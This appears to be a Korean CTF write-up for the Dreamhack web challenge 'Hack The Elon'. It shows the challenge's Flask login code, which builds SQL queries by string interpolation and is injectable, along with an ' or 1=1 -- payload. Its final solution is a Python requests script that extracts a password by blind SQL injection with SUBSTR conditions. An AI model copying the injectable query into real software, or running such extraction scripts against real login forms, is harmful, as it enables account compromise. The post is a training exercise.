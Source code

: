 ```yaml
---
title: "드림핵 lv.1 - Hack The Elon"
date: 2025-02-25 00:21:00 +0800
categories: [Wargame, Dreamhack]
tags: [cyber security, writeup, dreamhack, web hacking, Blind SQL Injection] 
description: 드림핵 Hack The Elon 웹해킹 워게임 풀이
---
```


[https://dreamhack.io/wargame/challenges/1809](https://dreamhack.io/wargame/challenges/1809)

# 문제 설명

**이 문제는 제 30회 해킹캠프 `박기범 - 웹 해킹의 첫 발걸음` 실습 플랫폼에 출제된 문제입니다.**

Elon Musk의 비밀번호를 알아내어 부자가 되어 보아요.  
비밀번호는 a, b, c, d, e 5개의 알파벳으로 이루어진 4글자에요.  
비밀번호는 메모해두는게 좋을거에요. :)

플래그 형식은 `HACKCAMP{...}` 입니다.

--- 
# 문제 풀이
# 웹사이트 분석
### main page(login)
메인 페이지에 접속하면 곧바로 로그인 창이 뜨는 것을 알 수 있다.<br />

```html
<form method="POST">
	<input type="text" name="username" placeholder="아이디" required=""><br>
	<input type="password" name="password" placeholder="비밀번호" required=""><br>
	<input type="submit" value="로그인">
</form>
```
개발자 도구를 열어서 HTML 코드를 먼저 살펴보면 로그인 form은 당연하게도 POST 메소드 요청을 보낸다. <br /> 
username과 password 값을 프론트 단에서 읽어서 서버로 보내는 코드이다. <br />

guest, guest 혹은 admin, admin 값으로 로그인을 시도해보니 역시나 실패했다고 뜬다. <br />

다음으로는 SQL Injection도 시도해 보았다.
`username: "' or 1=1 --", password: "something"`를 값으로 입력하니 로그인에 성공하고 곧바로 flag가 추출됐다. 
``` 
|* RESULT *|
로그인 성공!

반가워요. 여기 플래그를 드릴게요.  
HACKCAMP{ELON의비밀번호4자리_pW_bl1nd_wowow_but_swqpbabo}  
  
설마 Blind SQL 기법으로 안푼건 아니죠... ㅋㅋㅋ
```

처음에는 그냥 SQL Injection을 연습하는 아주 간단한 문제인 줄 알았다. 하지만 결과의 맨 마지막 문장을 보면 "설마 Blind SQL 기법으로 안푼건 아니죠... ㅋㅋㅋ"를 보자마자 속았다는 걸 깨달았다. <br />

해당 플래그를 제출해보니 역시나 잘못된 플래그였다. 사람들이 SQL Injection으로 먼저 시도를 할 것을 예상을 하고 심어놓은 대본이다. 좀 웃겼다.<br />

당연하게도 이쯤 되면 해당 문제는 Blind SQL Injection 기법을 사용해야 하는 구나 라는 것을 알 수 있다. 플래그 중간에 보면 **ELON의비밀번호4자리**가 보이는데 이 부분을 비밀번호로 덮어쓰면 될 것 같다.<br />
이제 코드를 살펴보자.
## 코드 분석
### app.py
```python
def init_db():
    conn = sqlite3.connect('users.db')
    cursor = conn.cursor()
    cursor.execute('''CREATE TABLE IF NOT EXISTS users (
                        id INTEGER PRIMARY KEY AUTOINCREMENT,
                        username TEXT UNIQUE NOT NULL,
                        password TEXT NOT NULL
                    )''')
    cursor.execute("INSERT OR IGNORE INTO users (username, password) VALUES ('elon', '(REDACTED숨겨진정보!)')")
    conn.commit()
    conn.close()

# init_db()

@app.route("/", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        username = request.form.get("username", "")
        password = request.form.get("password", "")

        conn = sqlite3.connect('users.db')
        cursor = conn.cursor()

        query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
        cursor.execute(query)
        user = cursor.fetchone()
        conn.close()

        if user:
            return """
            <html>
                <head><title>Login Success</title></head>
                <body class="success">
                    <h2>로그인 성공!</h2>
                    <p>반가워요. 여기 플래그를 드릴게요.<br>HACKCAMP{ELON의비밀번호4자리_pW_bl1nd_wowow_but_swqpbabo}<br><br>설마 Blind SQL 기법으로 안푼건 아니죠... ㅋㅋㅋ</p>
                    <a href="/">돌아가기</a>
                </body>
            </html>
            """
        else:
            return """
            <html>
                <head><title>Login Failed</title></head>
                <body class="fail">
                    <h2>로그인 실패!</h2>
                    <p>아이디 또는 비밀번호가 잘못되었습니다.</p>
                    <a href="/">다시 시도하기</a>
                </body>
            </html>
            """
```
Flask를 이용해서 구현된 백엔드 코드이다. 불필요한 부분들은 생략하고 가져왔으니 참고 바란다.<br />

login() 함수에서 POST 메소드 처리 방식을 보면 SQL Injection 예방이 전혀 안돼있다. 그래서 로그인 할 때에 내가 입력했던 쿼리문이 작동한듯 하다.<br />

그리고 서버가 작동될 때 실행되는 init_db()를 보면 elon의 username은 당연하게도 elon인 걸 알 수 있다.<br />
그리므로 `SELECT * FROM users WHERE username=elon AND password={}` 이러한 쿼리를 이용하여 문자를 하나하나 시도하여 로그인이 성공할 때를 기준으로 비밀번호를 알아내면 된다.<br/>

문제를 살펴보면 비밀번호는 a, b, c, d, e 중 하나로 이루어져있고 총 4글자라고 한다. 다행히 시간이 비밀번호 구하는 과정이 그렇게 오래 걸리진 않을 것 같다.
## 최종 풀이
```python
import requests

URL = "http://host1.dreamhack.games:23012/"
chars = ['a', 'b', 'c', 'd', 'e']

pw = ""
for i in range(1, 5):
    for c in chars:
        form = {
            "username": f"elon' AND SUBSTR(password, {i}, 1) = '{c}'--",
            "password": "random123"
        }
        resp = requests.post(URL, data=form)

        if "HACKCAMP" in resp.text:
            pw += c
            break
            
print(pw)
```
특별히 신경써야 하는 부분은 없고 그냥 쿼리 부분만 보면 된다. <br />
자세히보면 username 맨 끝에서 주석 처리를 해주고 있기 때문에 password는 그냥 dummy 값을 넣어줬다. 그리고 username에 메인 쿼리가 들어간다.<br />

elon이라는 이름을 가진 유저의 password의 substring을 계속해서 체크해주는 방식이다. <br />
예를 들어 비밀번호가 "abcd"이면 `substr(password, 1, 1)`의 값은 a가 될 것이고 `substr()` 함수의 인자를 2, 3, 4 이렇게 늘려나가면 b, c, d가 나온다.

이러한 원리로 비밀번호를 한 글자 한 글자 알아낼 수 있다.

그럼 이 비밀번호를 아까 얻었던 가짜 플래그의 적절한 곳에 덮어쓰기 해주면 문제가 풀리게 된다.
# 배운 것
**python에서 requests의 인자가 나타내는 json과 data의 차이를 알게됐다.**

`request.post(url, json=temp)`를 하게 되면 HTTP header에 `Content-Type`이 json으로 전달된다.<br />
그리고 `request.post(url, data=temp)`를 하게 되면 HTTP header에 `Content-Type`이 `x-www-form-urlencoded`로 설정돼 전달된다.

그래서 처음에는 form으로 POST 요청을 해야하는데 어떻게 하지 여러가지 시도를 하다가 조금 삽질의 시간이 필요했다.